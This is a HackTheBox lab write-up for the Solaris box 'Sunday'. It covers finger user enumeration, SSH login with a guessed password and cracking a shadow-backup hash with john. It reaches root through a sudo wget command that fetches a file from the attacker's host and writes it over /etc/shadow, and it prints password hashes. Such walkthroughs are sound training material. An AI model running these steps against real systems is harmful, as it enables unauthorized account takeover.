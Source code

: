 ```yaml
---
title: "HackTheBox - Sunday"
categories: [HackTheBox, Easy]
tags: [Solaris,Easy,OSCP]
mermaid: true
image: https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2006:45:23.png

---
```



This box was an Easy box from HackTheBox. It's OS is Solaris and the entry point is with SSH. Solaris is not so common in HackTheBox machines. This box was really easy to solve. I did not make any exploit for it because there is no need for that. When you get a shell as sunny, you find a backup file with sammy password. When you get sammy shell you see that this user can run wget as root, then I overwrite tie /etc/shadow file, changing the root password, and becomde root with a simple su. I know that we can do this box in other ways but we have more boxes to complete. Hope you enjoy my simple write-up!

# Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 79)
    B --> C[Finger - Sammy - Sunny User]
    C --> |SSH - Sunny| D[Shadow - Sammy Pass]
    D --> |SSH - Sammy| E[sudo wget]
    E --> |Overwrite shadow| F[su root]
```

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.76
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:23:28.png)

## Port 79

We find on port 79 an application called [finger](https://en.wikipedia.org/wiki/Finger_protocol) which is a protocol to show logged users on a machine.

We found [this](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl) script to enumerate users in this box

```sh
./finger-user-enum.pl -U list.txt -t 10.10.10.76
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2006:50:41.png)

And we found the users sammy and sunny.

# SSH Port 22022 - Sunny

We just try to ssh with this user with the password sunday, and we get success

```sh
ssh -p 22022 sunny@10.10.10.76
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2006:58:15.png)

# sunny --> sammy

Now, let's escalate to a sammy shell

We found a shadow.backup file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2006:59:24.png)

```
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
```

And we break it with john

```sh
john hash.txt --wordlist=pass.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:00:17.png)

Now, just su as sammy

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:02:01.png)

# sammy --> root

Now, let's get root

With just sudo -l we see that we can execute wget as root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:14:59.png)

On [gtfobins](https://gtfobins.github.io/gtfobins/wget/) we see how to get root with that

We create a shadow to overwrite the original one with a password we already know

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:35:33.png)

```
root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Now, just trigger it

```sh
sudo wget http://10.10.16.3/over.txt -O /etc/shadow
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:41:15.png)

And we can su root with this new password, sunday

```sh
su root
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-21-HackTheBox-Sunday/2021-12-21-HackTheBox-Sunday%2007:41:28.png)